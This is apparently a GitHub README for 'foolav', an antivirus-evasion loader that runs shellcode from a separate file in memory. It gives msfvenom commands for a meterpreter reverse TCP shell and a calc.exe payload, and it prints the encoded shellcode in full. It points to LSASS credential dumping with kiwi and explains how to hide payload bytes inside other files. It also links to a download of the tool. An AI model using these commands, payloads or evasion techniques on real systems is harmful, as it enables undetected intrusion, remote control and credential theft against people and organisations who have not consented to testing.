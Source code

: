 # foolav

Executable compiled with this code is useful during penetration tests where there is a need to execute some payload (meterpreter maybe?) while being certain that it will not be detected by antivirus software. The only requirement is to be able to upload two files: `binary executable` and `payload file` into the same directory.

## Usage steps

1. prepare your payload (x86), i.e.
   
   calc: ```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d\xff" -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf```
   
   or meterpreter: ```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=... -a x86 -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf```
2. copy payload file `[executable-name-without-exe-extension].mf` in the same directory as executable
   payload running calc.exe generated using above command:
   ```
   # calc.exe
   \xbb\x28\x30\x85\x5b\xd9\xf7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x33\x83\xea\xfc\x31\x5a\x0e\x03\x72\x3e\x67\xae\x7e\xd6\xee\x51\x7e\x27\x91\xd8\x9b\x16\x83\xbf\xe8\x0b\x13\xcb\xbc\xa7\xd8\x99\x54\x33\xac\x35\x5b\xf4\x1b\x60\x52\x05\xaa\xac\x38\xc5\xac\x50\x42\x1a\x0f\x68\x8d\x6f\x4e\xad\xf3\x80\x02\x66\x78\x32\xb3\x03\x3c\x8f\xb2\xc3\x4b\xaf\xcc\x66\x8b\x44\x67\x68\xdb\xf5\xfc\x22\xc3\x7e\x5a\x93\xf2\x53\xb8\xef\xbd\xd8\x0b\x9b\x3c\x09\x42\x64\x0f\x75\x09\x5b\xa0\x78\x53\x9b\x06\x63\x26\xd7\x75\x1e\x31\x2c\x04\xc4\xb4\xb1\xae\x8f\x6f\x12\x4f\x43\xe9\xd1\x43\x28\x7d\xbd\x47\xaf\x52\xb5\x73\x24\x55\x1a\xf2\x7e\x72\xbe\x5f\x24\x1b\xe7\x05\x8b\x24\xf7\xe1\x74\x81\x73\x03\x60\xb3\xd9\x49\x77\x31\x64\x34\x77\x49\x67\x16\x10\x78\xec\xf9\x67\x85\x27\xbe\x88\x67\xe2\xca\x20\x3e\x67\x77\x2d\xc1\x5d\xbb\x48\x42\x54\x43\xaf\x5a\x1d\x46\xeb\xdc\xcd\x3a\x64\x89\xf1\xe9\x85\x98\x91\x6c\x16\x40\x78\x0b\x9e\xe3\x84
   ```
3. once executable is run, payload file will be parsed, loaded into separate thread and executed in memory:
   
   ![screen](https://cloud.githubusercontent.com/assets/4956006/12366078/2c13213c-bbd9-11e5-8fc9-a7a62194158e.png)

## Hints

- x86 binary will run on both x86 and x86_64 Windows systems. Still, you need to use x86 architecture payloads. Nevertheless, x86 meterpreter payload can be migrated to x86_64 processes. After that, `load kiwi` will load x86_64 version making it possible to access juicy contents of LSASS process memory :)
- parser of .mf payload file will ignore every character other than `\xHH` hexdecimal sequences. This means, it can append your payload t almost any file, hide it between the lines or even add your own comments

## Download

https://github.com/hvqzao/foolav/releases/download/v1.0/foolav.zip

## License

[MIT License](https://github.com/twbs/bootstrap/blob/master/LICENSE)
